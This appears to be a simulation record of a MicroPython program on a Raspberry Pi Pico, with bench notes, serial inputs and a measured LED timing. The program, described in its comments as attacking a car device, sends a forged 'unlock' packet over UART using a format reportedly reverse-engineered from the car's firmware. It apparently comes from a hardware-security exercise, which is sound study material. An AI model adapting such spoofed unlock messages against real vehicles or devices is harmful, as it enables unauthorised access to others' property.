
This program was run on a simulated Raspberry Pi Pico running MicroPython. On the bench: output pins drawn as LEDs (lit = HIGH), the last lines printed to the serial console. Inputs (shaded band) come from the test bench.

Above: at 1.2 s.
1.3 s: "run" typed at the serial console, then Enter
At 1.7 s:

3.3 s: "flush" typed at the serial console, then Enter
4.8 s: "1" typed at the serial console, then Enter
Timing chart, 0 to 7.8 s (numbered marks = the images above; inputs shaded):


The program:

pi_pico_program.py
```python
from machine import Pin, UART
from time import sleep

# Initialize LED
led = Pin(25, Pin.OUT)

# Initialize UART 1 to communicate with Car Device
uart = UART(1, baudrate=115200, tx=Pin(4), rx=Pin(9))
uart.init(bits=8,parity=None,stop=1)

while True:

    # Wait for run command from host
    command = input('cmd> ').strip()

    # Attack car on command "run"
    if command == "run":
        # Turn on LED
        led.toggle()

        # Create evil unlock message
        # Using format and password discovered by
        # Reverse Engineering the car firmware
        message = b'unlock'
        message_packet = bytes([0x56, len(message)])+message

        # Send evil unlock message to car device
        print('sending unlock message packet:', message_packet)
        uart.write(message_packet)

        # Read and display response from car device
        sleep(0.5)
        if uart.any():
            print('received response:')
            print(uart.read())

        # Turn off LED
        led.toggle()

    # Flush the UART FIFO on command "flush"
    elif command == "flush":
        # Clear the UART fifo, printing contents
        while uart.any():
            print('Flushing:')
            print(uart.read())

    else:
        print("Command not recognized:", command)
```

Measured:
- after the input at 1.3 s, GP25 (led): LOW → HIGH at once, → LOW 0.50 s later
